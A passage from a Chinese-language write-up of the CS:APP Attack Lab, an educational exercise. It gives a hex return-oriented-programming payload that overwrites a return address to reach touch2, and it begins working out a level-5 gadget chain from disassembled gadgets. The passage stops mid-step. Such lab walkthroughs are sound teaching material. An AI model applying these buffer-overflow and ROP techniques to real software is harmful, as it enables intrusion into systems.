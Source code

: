 到此，我们完成了`gadget`的拼凑，输入的字符串如下：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00							# 改写返回地址为0x4019ab, 执行popq %rax
fa 97 b9 59 00 00 00 00							# 保存cookie的值: 0x59b997fa
a2 19 40 00 00 00 00 00							# 执行mov %rax, %rdi
ec 17 40 00 00 00 00 00							# 跳转到touch2, touch2起始地址为0x4017ec
```

此时的栈组织如下：

![AttackLab 图4](C:\Users\pc\Desktop\图片\AttackLab 图4.PNG)

### 第五关

和第三关类似，这关需要将`cookie`字符串的首地址传给`%rdi`, 再调用`touch3`。

由于栈位置是随机的，需要用**栈顶地址+偏移**来确定`cookie`串的位置。 栈顶地址即`$rsp`，可通过`mov %rsp XXX`获取，偏移需要根据`gadget`指令的长度来确定。

如何将`cookie`串地址传到`%rdi`呢？可以在`farm.o`中可以找到如下的`gadget`

```assembly
00000000004019d6 <add_xy>:
  4019d6:   48 8d 04 37             lea    (%rdi,%rsi,1),%rax
  4019da:   c3
```

再结合所有`gadget`，多次尝试后发现一个可行解，如下：

* 将`%rsp`传给`%rdi`，利用`mov`实现。

* 将偏移传给`%rsi`， 需利用`pop`和多个`mov`实现。偏移量需要在找到所有`gadget`后通过计算得出。

* 用`lea (%rdi,%rsi,1),%rax`，将`cookie`串的首地址传给`%rax`

* 将`%rax`传给`%rdi`，利用`mov`指令 

#### 具体步骤

##### 1. 将`%rsp`传给`%rdi`

通过`movq %rsp,%rax`,`movq %rax,%rdi`实现：

```assembly
0000000000401aab <setval_350>:
  401aab:   c7 07 48 89 e0 90       movl   $0x90e08948,(%rdi)
  401ab1:   c3                      retq
00000000004019a0 <addval_273>:
  4019a0:   8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:   c3                      retq
```

`movq %rsp,%rax`编码为`48 89 e0`, 地址为`0x401aad`。
